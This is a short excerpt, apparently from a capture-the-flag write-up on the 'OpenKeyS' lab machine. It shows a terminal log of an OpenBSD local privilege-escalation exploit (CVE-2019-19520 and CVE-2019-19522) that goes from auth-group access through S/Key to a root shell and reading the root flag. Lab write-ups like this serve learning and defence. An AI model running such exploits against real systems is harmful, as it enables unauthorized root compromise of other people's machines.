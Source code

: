 ```shell
openkeys$ chmod +x privEsc.sh                                                                                                                                                                                
openkeys$ ./privEsc.sh                                                                                                                                                                                       
openbsd-authroot (CVE-2019-19520 / CVE-2019-19522)
[*] checking system ...
[*] system supports S/Key authentication
[*] id: uid=1001(jennifer) gid=1001(jennifer) groups=1001(jennifer), 0(wheel)
[*] compiling ...
[*] running Xvfb ...
[*] testing for CVE-2019-19520 ...
_XSERVTransmkdir: ERROR: euid != 0,directory /tmp/.X11-unix will not be created.
[+] success! we have auth group permissions

WARNING: THIS EXPLOIT WILL DELETE KEYS. YOU HAVE 5 SECONDS TO CANCEL (CTRL+C).

[*] trying CVE-2019-19522 (S/Key) ...
Your password is: EGG LARD GROW HOG DRAG LAIN
otp-md5 99 obsd91335
S/Key Password:
openkeys# id                                                                                                                                                                                            
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
openkeys# cat /root/root.txt                                                                                                                                                                                 
f3a55---REDEACTED---c6efa
```
![Root Shell](/assets/images/OpenKeyS/rootshell.png)
